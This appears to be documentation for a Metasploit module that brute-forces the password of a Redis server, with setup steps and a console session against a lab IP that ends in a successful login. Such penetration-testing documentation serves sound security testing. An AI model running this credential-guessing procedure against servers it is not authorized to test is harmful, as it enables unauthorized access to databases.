 ## Vulnerable Application
Redis is an in-memory data structure project implementing a distributed, in-memory key-value
database with optional durability. Redis supports different kinds of abstract data structures,
such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module is login utility to find the password of the Redis server by bruteforcing the login portal.
Note that Redis does not require a username to log in; login is done purely via supplying a valid password.

A complete installation guide for Redis can be found [here](https://redis.io/topics/quickstart)

## Verification Steps
1. Do: `use auxiliary/scanner/redis/redis_login`
2. Do: `set RHOSTS [ips]`
3. Do: `set PASS_FILE /home/kali/passwords.txt`
4. Do: `run`

## Options

### PASS_FILE
The file containing a list of passwords to try logging in with.

## Scenarios

### Redis Version 6.0.10
```
msf6 > use scanner/redis/redis_login
msf6 auxiliary(scanner/redis/redis_login) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 auxiliary(scanner/redis/redis_login) > set PASS_FILE /home/kali/Downloads/passwords.txt
PASS_FILE => /home/kali/Downloads/pass.txt
msf6 auxiliary(scanner/redis/redis_login) > run

[!] 192.168.1.7:6379      - No active DB -- Credential data will not be saved!
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:foobared (Incorrect: -WRONGPASS invalid username-password pair)
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:admin (Incorrect: -WRONGPASS invalid username-password pair)
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:administrator (Incorrect: -WRONGPASS invalid username-password pair)
[+] 192.168.1.7:6379      - 192.168.1.7:6379      - Login Successful: redis:mypass (Successful: +OK)
[*] 192.168.1.7:6379      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
